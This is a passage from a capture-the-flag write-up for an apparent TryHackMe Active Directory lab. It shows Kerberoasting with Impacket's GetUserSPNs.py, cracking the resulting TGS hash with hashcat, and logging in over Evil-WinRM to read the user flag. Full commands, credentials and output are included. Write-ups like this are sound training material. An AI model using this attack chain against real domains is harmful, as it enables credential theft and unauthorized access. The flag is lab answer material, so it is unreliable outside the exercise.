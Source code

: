 - Now let's do some Kerberoasting since these are credentials for Remote IPC.

  ```
  GetUserSPNs.py 'VULNNET-RST.local/t-skid:tj072889*' -outputfile kerberoast.hash -dc-ip 10.10.205.21
  Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 
  
  ServicePrincipalName    Name                MemberOf                                                       PasswordLastSet             LastLogon                   Delegation 
  ----------------------  ------------------  -------------------------------------------------------------  --------------------------  --------------------------  ----------
  CIFS/vulnnet-rst.local  enterprise-core-vn  CN=Remote Management Users,CN=Builtin,DC=vulnnet-rst,DC=local  2021-03-11 19:45:09.913979  2021-03-13 23:41:17.987528             
  
  [-] CCache file is not found. Skipping...
  ```

- Crack the newly found hash.

  ```
  13100 	Kerberos 5, etype 23, TGS-REP 	$krb5tgs$23$*user$realm$test/spn*$63386d22d359fe4223030[SNIP!]

  hashcat -m 13100 kerberoast.hash /rockyou.txt
  
  $krb5tgs$23$*enterprise-core-vn$VULNNET-RST.LOCAL$VULNNET-RST.local/enterprise-core-vn*$8eae41f87c718510a0308fe4b42f[SNIP!]:ry=ibfkfv,s6h,
  ```

---

## 🧍 User Privilege Escalation

- Connect to the target and get the first flag. You can use `rdesktop`, `xfreerdp3` or `evil-winrm`.

  ```
  evil-winrm -u enterprise-core-vn -p ry=ibfkfv,s6h, -i 10.10.205.21

  Evil-WinRM shell v3.7
                                          
  Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                          
  Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                          
  Info: Establishing connection to remote endpoint
  *Evil-WinRM* PS C:\Users\enterprise-core-vn\Documents> whoami
  vulnnet-rst\enterprise-core-vn
  *Evil-WinRM* PS C:\Users\enterprise-core-vn\Documents> dir
  
  *Evil-WinRM* PS C:\Users\enterprise-core-vn\Desktop> dir
  
  
      Directory: C:\Users\enterprise-core-vn\Desktop
  
  
  Mode                LastWriteTime         Length Name
  ----                -------------         ------ ----
  -a----        3/13/2021   3:43 PM             39 user.txt
  
  
  *Evil-WinRM* PS C:\Users\enterprise-core-vn\Desktop> cat user.txt
  THM{726b7c0baaac1455d05c827b5561f4ed}
  ```
